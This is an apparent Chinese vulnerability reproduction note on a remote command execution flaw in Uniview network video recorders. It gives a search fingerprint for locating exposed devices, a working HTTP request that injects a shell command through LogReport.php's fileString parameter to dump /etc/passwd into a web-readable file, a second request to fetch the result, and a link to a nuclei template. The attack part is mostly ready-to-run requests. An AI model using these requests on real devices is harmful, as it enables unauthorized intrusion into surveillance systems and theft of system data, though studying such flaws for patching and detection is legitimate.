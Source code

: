 # 浙江宇视网络视频录像机 LogReport.php 远程命令执行

# 一、漏洞简介
浙江宇视科技有限公司(宇视uniview)创业于2011年,宇视是一家全球公共安全和智能交通的解决方案提供商,以可视、智慧、物联产品技术为核心的引领者。浙江宇视科技 网络视频录像机系统存在远程代码执行漏洞，攻击者通过漏洞可以获取服务器权限。

# 二、影响版本
+ 浙江宇视网络视频录像机

# 三、资产测绘
+ hunter`web.body="Alarm"&&web.body="白牌定制"`
+ 特征

![1702872611878-f3a32d8c-3739-407e-8635-dc2a7696e64a.png](./img/v0B50UD5k9xLwMVe/1702872611878-f3a32d8c-3739-407e-8635-dc2a7696e64a-556788.png)

# 四、漏洞复现
```plain
GET /Interface/LogReport/LogReport.php?action=execUpdate&fileString=x%3bcat%20/etc/passwd%3eqwer123.txt HTTP/1.1
Host: {hostname}
User-Agent: Mozilla/5.0 (Windows NT 5.1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/35.0.2309.372 Safari/537.36
Connection: close
Accept-Encoding: gzip, deflate
```

![1702872649040-2b06f613-e06a-4ce0-943e-0aeb713dd3be.png](./img/v0B50UD5k9xLwMVe/1702872649040-2b06f613-e06a-4ce0-943e-0aeb713dd3be-561337.png)

获取命令执行结果

```plain
GET /Interface/LogReport/qwer123.txt HTTP/1.1
Host: {hostname}
User-Agent: Mozilla/5.0 (Windows NT 5.1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/35.0.2309.372 Safari/537.36
Connection: close
Cookie: PHPSESSID=854b7f8a6d3fb343740627484f62886e
Accept-Encoding: gzip, deflate
```

![1702872685034-9791e017-0e03-4589-905e-fe8f68825258.png](./img/v0B50UD5k9xLwMVe/1702872685034-9791e017-0e03-4589-905e-fe8f68825258-859585.png)

nuclei脚本

[yushi-isc-logreport-rce.yaml](https://www.yuque.com/attachments/yuque/0/2024/yaml/1622799/1709222231772-32bf72bc-329e-4b6b-b589-87e622a98850.yaml)



> 更新: 2024-02-29 23:57:12  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/fywx9ig1g1f4g42w>